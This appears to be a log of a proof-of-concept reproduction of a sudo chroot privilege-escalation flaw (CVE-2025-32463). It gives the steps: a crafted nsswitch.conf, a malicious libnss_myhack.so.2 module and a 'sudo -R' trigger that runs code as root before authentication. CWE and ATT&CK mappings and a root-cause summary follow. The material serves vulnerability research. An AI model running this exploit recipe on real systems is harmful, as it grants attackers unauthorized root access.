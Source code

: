 Steps 2-7 executed as user
- Prepared chroot at /tmp/chrootpwn
- Wrote /tmp/chrootpwn/etc/nsswitch.conf with:
    passwd: myhack files
    shadow: myhack files
    group: myhack files
    hosts: files myhack
- Created /tmp/libnss_myhack.c (constructor/destructor writing markers)
- Compiled to /tmp/libnss_myhack.so.2
  Note: `file` utility not present ("sh: 72: file: not found") but compile succeeded.
- Installed libnss_myhack.so.2 into chroot lib paths (/lib, /lib64, /usr/lib, /lib/x86_64-linux-gnu)

Trigger sudo with chroot:
- sudo -R /tmp/chrootpwn -u root /usr/bin/true -> prompts for password; errors:
    "sudo: a terminal is required..." and "sudo: a password is required"
- sudo -R /tmp/chrootpwn /usr/bin/id -> same interactive errors
  Despite auth errors, NSS module constructor/destructor executed (pre-auth load), per markers below.

Markers observed:
- Inside chroot constructor marker:
  -rw-r--r-- 1 root root 16 Aug  7 21:45 /tmp/chrootpwn/tmp/nss_poc_constructor
- Outside chroot destructor marker:
  -rw-r--r-- 1 root user 24 Aug  7 21:45 /tmp/nss_poc_destructor
  Contents: "destructor ran as root?\n"

Conclusion: SUCCESS. The malicious NSS module was dlopen'ed during sudo policy resolution while rooted inside the attacker-controlled chroot, and its destructor executed after sudo unpivoted, writing to the real /tmp as root. This demonstrates code execution as root outside the chroot pre-auth.

Notes/Errors:
- `file` command missing; non-critical.
- Sudo requested TTY/password; not needed for PoC since NSS load occurs before authentication.



CVE-2025-32463_framework_mappings
[23:51:27]
CWE: CWE-829 (Inclusion of Functionality from Untrusted Control Sphere), CWE-426 (Untrusted Search Path)
CAPEC: CAPEC-251 (Local Code Inclusion)
ATT&CK: T1068 (Exploitation for Privilege Escalation), T1129 (Shared Modules), T1574.006 (Hijack Execution Flow: Dynamic Linker Hijacking)


CVE-2025-32462_framework_mappings
[23:51:30]
CWE: CWE-285 (Improper Authorization), CWE-270 (Privilege Context Switching Error)
CAPEC: CAPEC-1 (Accessing Functionality Not Properly Constrained by ACLs)
ATT&CK: T1548 (Abuse Elevation Control Mechanism), T1068 (Exploitation for Privilege Escalation)


CVE-2025-32463_root_cause
[23:52:28]
sudo 1.9.17 pivoted into attacker-controlled chroot (-R/CHROOT) during pre-auth policy resolution; glibc consulted chroot's nsswitch.conf and dlopen'ed libnss_*.so from inside the chroot, executing attacker code as root before authentication. Patch 1.9.17p1 removed pivot_root/chroot during resolution and deprecated chroot support.
